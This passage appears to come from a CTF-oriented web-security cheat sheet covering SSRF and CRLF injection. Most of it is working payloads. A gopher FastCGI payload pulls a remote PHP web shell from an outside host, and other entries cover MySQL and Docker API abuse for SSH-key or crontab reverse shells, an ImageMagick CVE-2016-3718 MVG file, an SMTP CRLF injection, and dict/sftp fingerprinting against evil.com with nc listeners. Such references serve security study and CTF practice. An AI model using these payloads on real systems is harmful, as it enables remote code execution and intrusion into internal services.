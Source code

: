 header( "Location: gopher://127.0.0.1:9000/x%01%01Zh%00%08%00%00%00%01%00%00%00%00%00%00%01%04Zh%00%8b%00%00%0E%03REQUEST_METHODGET%0F%0FSCRIPT_FILENAME/www//index.php%0F%16PHP_ADMIN_VALUEallow_url_include%20=%20On%09%26PHP_VALUEauto_prepend_file%20=%20http://kaibro.tw/x%01%04Zh%00%00%00%00%01%05Zh%00%00%00%00" );`
                - x: `<?php system($_GET['cmd']); ?>`
                - visit: `/forum.php?mod=ajax&action=downremoteimg&message=[img]http://kaibro.tw/302.php?.jpg[/img]`
    - MySQL
        - 无密码认证可以SSRF
        - MySQL Client与Server交互主要分两阶段
            - Connection Phase
            - Command Phase
        - `gopher://127.0.0.1:3306/_<PAYLOAD>`

    - Docker 
        - Remote api未授权访问
            - 开一个container，挂载/root/，写ssh key
            - 写crontab弹shell

    - ImageMagick - CVE-2016-3718
        - 可以发送HTTP或FTP request
        - payload: ssrf.mvg
        ```
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(http://example.com/)'
        pop graphic-context
        ```
        - `$ convert ssrf.mvg out.png`
    

## CRLF injection

### SMTP

SECCON 2017 SqlSRF:

`127.0.0.1 %0D%0AHELO sqlsrf.pwn.seccon.jp%0D%0AMAIL FROM%3A %3Ckaibrotw%40gmail.com%3E%0D%0ARCPT TO%3A %3Croot%40localhost%3E%0D%0ADATA%0D%0ASubject%3A give me flag%0D%0Agive me flag%0D%0A.%0D%0AQUIT%0D%0A:25/`

## FingerPrint

- dict
```
dict://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5566 [tcp/*] accepted (family 2, sport 40790)
CLIENT libcurl 7.35.0

-> libcurl version
```
- sftp
```
sftp://evil.com:5566

$ nc -vl 5566
Listening on [0.0.0.0] (family 0, port 5278)
Connection from [x.x.x.x] port 5278 [tcp/*] accepted (family 2, sport 40810)
SSH-2.0-libssh2_1.4.2

-> ssh version
```
